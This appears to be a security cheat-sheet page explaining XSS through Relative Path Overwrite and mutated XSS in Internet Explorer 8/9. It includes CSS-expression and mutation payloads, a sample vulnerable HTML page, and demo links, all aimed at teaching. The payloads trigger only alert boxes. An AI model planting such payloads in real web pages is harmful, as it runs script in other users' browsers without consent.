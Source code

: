 # XSS with Relative Path Overwrite

:WARNING: Requires Internet Explorer 8/9 and lower.

You need these 3 components

1. Stored XSS that allows CSS injection. : `{}*{xss:expression(open(alert(1)))}`
2. URL Rewriting.
3. Relative addressing to CSS style sheet : `../style.css`

Here is the HTML code of `http://url.example.com/index.php/[RELATIVE_URL_INSERTED_HERE]` 

```html
<html>
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
        <link href="[RELATIVE_URL_INSERTED_HERE]/styles.css" rel="stylesheet" type="text/css" />
    </head>
    <body>
        Stored XSS with CSS injection - Hello {}*{xss:expression(open(alert(1)))}
    </body>
</html>
```

Explanation of the vulnerability

> The Meta element forces IE’s document mode into IE7 compatible which is required to execute expressions. Our persistent text {}*{xss:expression(open(alert(1)))is included on the page and in a realistic scenario it would be a profile page or maybe a shared status update which is viewable by other users. We use “open” to prevent client side DoS with repeated executions of alert.
> A simple request of “rpo.php/” makes the relative style load the page itself as a style sheet. The actual request is “/labs/xss_horror_show/chapter7/rpo.php/styles.css” the browser thinks there’s another directory but the actual request is being sent to the document and that in essence is how an RPO attack works.

* Demo 1 at `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo.php`
* Demo 2 at `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo2.php/fakedirectory/fakedirectory2/fakedirectory3`
* MultiBrowser : `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo3.php`

From : `http://www.thespanner.co.uk/2014/03/21/rpo/`


## Mutated XSS for Browser IE8/IE9

```javascript
<listing id=x>&lt;img src=1 onerror=alert(1)&gt;</listing>
<script>alert(document.getElementById('x').innerHTML)</script>
```

IE will read and write (decode) HTML multiple time and attackers XSS payload will mutate and execute.


## References

- [RPO - Relative VS Absolute - The Spanner - Friday, 21 March 2014](http://www.thespanner.co.uk/2014/03/21/rpo/)